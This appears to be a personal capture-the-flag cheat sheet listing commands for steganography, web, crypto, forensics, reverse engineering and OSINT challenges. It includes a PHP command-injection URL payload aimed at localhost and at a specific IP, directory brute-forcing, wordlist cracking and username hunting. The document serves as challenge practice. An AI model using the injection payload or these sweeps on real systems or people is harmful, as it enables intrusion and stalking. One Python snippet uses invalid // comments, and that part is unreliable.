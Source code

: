 # CTF

- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)
- [OSINT](#osint)
- [PWD](#pwd)

## Steganography <a name="stenography"></a>

- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /usr/share/wordlists/rockyou.txt```
- ```file image.png```
- ```strings image.png```
- ```pngcheck image.png```
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png```
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- For the noice image
  - go to --> [online](https://piellardj.github.io/stereogram-solver)
- one more for the LSB.
  - go to ---> [jsteg](https://github.com/lukechampine/jsteg) (clone it!!)
  - open the file
  - run this command ```go run cmd/jsteg/main.go reveal ~/Desktop/image.jpg```
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- Use ```GIMP``` to work with QR dots
- ```otfinfo -i font.ttf``` for file.ttf
- ```zbarimg image.png``` to read the qr code
- redacted text (cover with block) in a given pdf
  - ```pdftotext file.pdf``` or ```pdftohtml  file.pdf```
- suspicious space and tabs in a given text file
![image](https://github.com/Chittu13/CTF/blob/main/image/space_tab.png)
  - python script to extract and convert from binary to ASCII and get  the flag.
``` python
def extract_and_convert(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()

    result = ''
    for byte in data:
        if byte == 0x09:  // Tab character
            result += '0'
        elif byte == 0x20:  // Space character
            result += '1'
    
    return result

file_path = 'the_cs_dictionary.txt'

binary_string = extract_and_convert(file_path)

n = int(binary_string, 2)
print(n.to_bytes((n.bit_length() + 7) // 8, 'big').decode())

```
## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files
- ```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```
- ```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://192.168.51.11/```

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
```
-------------------------
|76 |101|115|116|101|114|
-------------------------
|32 |83 |97 |110|100|101|
-------------------------
|114|115|32 |115|104|111|
-------------------------
|117|108|100|32 |104|101|
-------------------------
|108|112|32 |121|111|117|
-------------------------
|32 |58 |41 |41 |41 |42 |
-------------------------

KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 
```
![image](https://github.com/Chittu13/CTF/blob/main/image/hill_cipher.png)
  - flag ```CTF{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}```
2. http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '
    - if the web is old version use this in the url
3. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)
- ```strings flag.zip | grep -i cit | sort | uniq -u```
  - Given zip file was numerous directories with a flag.txt
- A simple script to converts the RGB values of each pixel into characters
```python
 from PIL import Image
import numpy as np

image_path = './secret_square.png'
img = Image.open(image_path).convert('RGB')

pixels = np.array(img)
print(pixels.shape)

sums = np.sum(pixels, axis=2)
print(sums.shape)

for row in sums:
    print(''.join([chr(x) for x in row]))
```

## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```
- ```objbump -d executablefile``` it will show the assembly code of the file

## OSINT <a name="osint"></a>
- To find the user in the internet use this tool called sherlock
```bash
# clone the repo
$ git clone https://github.com/sherlock-project/sherlock.git

# change the working directory to sherlock
$ cd sherlock

# install the requirements
$ python3 -m pip install -r requirements.txt
$ python3 sherlock user123
```


## PWD <a name="pwd"></a>


